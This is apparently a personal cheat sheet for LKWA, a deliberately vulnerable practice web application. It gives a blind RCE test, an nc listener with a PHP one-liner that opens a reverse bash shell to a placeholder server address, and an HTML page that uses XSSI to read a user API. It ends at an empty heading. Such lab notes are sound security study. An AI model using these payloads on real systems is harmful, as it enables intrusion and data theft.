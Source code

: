 # lkwa-cheatsheet

- my environment: macOS Catalina 10.15.6

Thanks [LKWA](https://github.com/weev3/LKWA).

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the Browser(text box)
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
  <body>
    <script>
      function a(s)
      {
        alert(JSON.stringify(s));
      }
    </script>
    <script src="http://localhost:3000/api/user"></script>
  </body>
</html>
```

deploy: `python3 -m http.server 3001`

access `http://localhost:3001/index.html` from browser.

## 0x03 – PHP Object Injection
